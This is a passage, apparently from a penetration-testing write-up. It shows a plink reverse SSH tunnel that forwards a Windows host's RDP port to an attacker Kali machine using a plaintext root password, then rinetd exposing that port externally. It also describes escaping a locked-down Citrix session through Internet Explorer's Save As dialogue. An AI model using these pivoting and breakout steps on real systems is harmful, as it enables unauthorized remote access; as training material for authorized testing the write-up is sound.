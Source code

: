 C:\\Windows\\Temp\>plink -l root -pw 23847sd98sdf987sf98732 -R
3389:127.0.0.1:3389

127.0.0.1 -P 3000

root\@kali:\~\# netstat -antp \|grep 3389

tcp 0 0 127.0.0.1:3389 0.0.0.0:\* LISTEN 10451/6

We then use rinetd to allow access to the RDP port on the loopback interface so
that we can connect to it externally.

root\@kali:\~\# netstat -antp \|grep 3389

tcp 0 0 208.68.234.100:3389 0.0.0.0:\* LISTEN 10824/rinetd

tcp 0 0 127.0.0.1:3389 0.0.0.0:\* LISTEN 10451/6

![](media/3a2009bc2fb78ce86f42e22e6718f06a.png)

We manage to break out of the closed Citrix environment by invoking the “Save
As” dialogue from a “View Source” request in the Internet Explorer session
presented to us by the Citrix server.
